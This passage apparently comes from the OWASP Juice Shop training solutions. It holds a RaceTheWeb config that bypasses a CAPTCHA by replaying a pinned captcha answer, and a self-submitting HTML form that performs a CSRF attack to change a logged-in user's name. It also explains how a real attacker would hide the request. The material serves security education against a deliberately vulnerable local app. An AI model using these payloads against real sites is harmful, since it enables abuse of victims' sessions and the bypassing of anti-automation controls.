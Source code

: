 Last but not least, the following
[RaceTheWeb](https://github.com/aaronhnatiw/race-the-web) config could
be used to solve this challenge. Other than the two above alternate
solutions, this one relies on CAPTCHA-pinning:

```toml
# CAPTCHA Bypass
# Save this as captcha-bypass.toml
# Get Captcha information from this endpoint first: http://localhost:3000/rest/captcha/
# Then replace captchaId and captcha values in body parameter of this file
# Launch this file by doing ./racethweb captcha-bypass.toml
count = 10
verbose = true
[[requests]]
    method = "POST"
    url = "http://localhost:3000/api/Feedbacks/"
    body = "{\"captchaId\":12,\"captcha\":\"-1\",\"comment\":\"pwned2\",\"rating\":5}"
    headers = ["Content-Type: application/json"]
```

### Change the name of a user by performing Cross-Site Request Forgery from another origin

1. Open Juice Shop in an older web browser, e.g.
   [Mozilla Firefox 56](https://ftp.mozilla.org/pub/firefox/releases/56.0/)
   from 2017. _(⚠️ You should not install such an old browser on your
   actual computer! Use a VM for such experiments!)_
2. Login with any user account. This user is going to be the victim of
   the CSRF attack.
3. Navigate to <http://htmledit.squarefree.com> in the same browser. It
   is intentional that the site is accessed without TLS, as otherwise
   there might be issues with the mixed-content policy of the browser.
4. In the upper frame of the page, paste the following HTML fragment,
   which contains a self-submitting HTML form:

```html
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
```

4. The attack is performed immediately. You will see an error message or
   a blank page in the lower frame, because even though the online HTML
   editor is allowed to send requests to Juice Shop, it is not permitted
   to embed the response.
5. Verify that the username got changed to "CSRF" by checking the
   [profile page](http://localhost:3000/profile).

In an actual attack scenario, the attacker will try to trick a
legitimate user into opening an attacker-controlled website. If the
victim is simultaneously logged into the target website, the requested
that is generated by the malicious form in step 3 is authenticated with
the victim's session. The attacker has also options to hide the
automatically issued request, for example by embedding it into an inline
frame of zero height and width.
